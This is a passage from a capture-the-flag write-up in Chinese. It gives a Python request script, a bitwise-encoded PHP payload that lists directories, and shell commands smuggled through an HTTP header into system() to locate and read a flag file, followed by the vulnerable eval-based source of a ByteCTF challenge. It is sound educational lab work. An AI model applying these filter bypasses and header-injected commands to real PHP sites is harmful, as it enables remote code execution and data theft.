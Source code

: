 ```python
print(code)
cookie = r.headers["Set-Cookie"][:43]
headers = {"Cookie": cookie}

r = requests.post(url=url, data={"cmd": cmd, "code": code}, proxies=proxies, headers=headers)  # cmd被自动urlencode,需要在burp中对cmd进行一次urldecode
print(r.text)
```

`var_dump(scandir(current(localeconv())))`得到`[~%89%9E%8D%A0%9B%8A%92%8F][!%FF]([~%8C%9C%9E%91%9B%96%8D][!%FF]([~%9C%8A%8D%8D%9A%91%8B][!%FF]([~%93%90%9C%9E%93%9A%9C%90%91%89][!%FF]())));`

返回

```
array(8) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(14) ".index.php.swp"
  [3]=>
  string(8) "ZWdn.png"
  [4]=>
  string(3) "css"
  [5]=>
  string(6) "images"
  [6]=>
  string(9) "index.php"
  [7]=>
  string(2) "js"
}
```

没有与flag有关的文件,需要进行搜索,尝试通过`getallheaders()`获取全部HTTP请求头信息进而构造搜索flag的shell

`headers`修改为`headers = {"Cookie": cookie, "Z": "find /* | grep flag"}`

`system(end(getallheaders()))`没有找到flag相关文件

`headers`修改为`headers = {"Cookie": cookie, "Z": "ls /"}`

`system(end(getallheaders()))`发现flag为`/flll1114gggggg`

`headers`修改为`headers = {"Cookie": cookie, "Z": "cat /flll1114gggggg"}`

`system(end(getallheaders()))`读取flag为`flag{694ce355-249a-40dd-94cd-5e4919325ac2}`

#### [ByteCTF]BoringCode

```php
<?php
if ($_POST['code']){
    $code = $_POST['code'];
    if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
        if (preg_match('/et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
            echo 'bye~';
        } else {
            eval($code);
        }
    }else{
        echo "No No No";
    }
}
?>
```
